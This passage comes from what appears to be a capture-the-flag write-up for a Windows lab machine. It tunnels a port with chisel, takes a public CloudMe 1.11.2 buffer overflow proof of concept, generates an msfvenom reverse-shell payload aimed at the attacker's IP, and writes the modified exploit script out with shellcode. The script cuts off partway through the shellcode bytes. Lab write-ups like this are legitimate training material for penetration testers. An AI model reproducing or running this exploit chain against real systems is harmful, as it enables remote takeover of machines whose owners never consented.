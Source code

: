Now, I start the server on my kali machine:

```bash
┌──(user㉿KaliVM)-[/tools/chisel]
└─$ chisel server -p 8000 --reverse
2021/09/19 19:54:12 server: Reverse tunnelling enabled
2021/09/19 19:54:12 server: Fingerprint o0OEdLXPKgrl7rpT7gxgSMYtWIdjCMVDW0HFaKaKReg=
2021/09/19 19:54:12 server: Listening on http://0.0.0.0:8000
```

On the windows machine, start the client:

```bash
.\chisel.exe client 10.10.16.6:8000 R:8888:localhost:8888
2021/09/19 19:03:45 client: Connecting to ws://10.10.16.6:8000
2021/09/19 19:03:46 client: Connected (Latency 38.7513ms)
```

Now, I can download the exploit (The buffer overflow PoC):

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/buff]
└─$ searchsploit -m 48389.py
  Exploit: CloudMe 1.11.2 - Buffer Overflow (PoC)
      URL: https://www.exploit-db.com/exploits/48389
     Path: /usr/share/exploitdb/exploits/windows/remote/48389.py
File Type: Python script, ASCII text executable

Copied to: /hackthebox/oscp-prep/buff/48389.py
```

It looks like that the payload was generated using msfvenom (`msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python`). I will create my own payload, so that I can get a shell:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/buff]
└─$ msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.16.6 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload
```

Edit the script with the new payload (and import sys), the script will now look something like this:

```python
# Exploit Title: CloudMe 1.11.2 - Buffer Overflow (PoC)
# Date: 2020-04-27
# Exploit Author: Andy Bowden
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1112.exe
# Version: CloudMe 1.11.2
# Tested on: Windows 10 x86

#Instructions:
# Start the CloudMe service and run the script.

import socket, sys

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#mmsfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.16.6 LPORT=443 \
# -b '\x00\x0A\x0D' -f python -v payload
payload =  b""
payload += b"\xb8\xd9\xb1\xbf\x89\xdb\xde\xd9\x74\x24\xf4\x5e"
payload += b"\x29\xc9\xb1\x52\x31\x46\x12\x03\x46\x12\x83\x37"
payload += b"\x4d\x5d\x7c\x3b\x46\x20\x7f\xc3\x97\x45\x09\x26"
```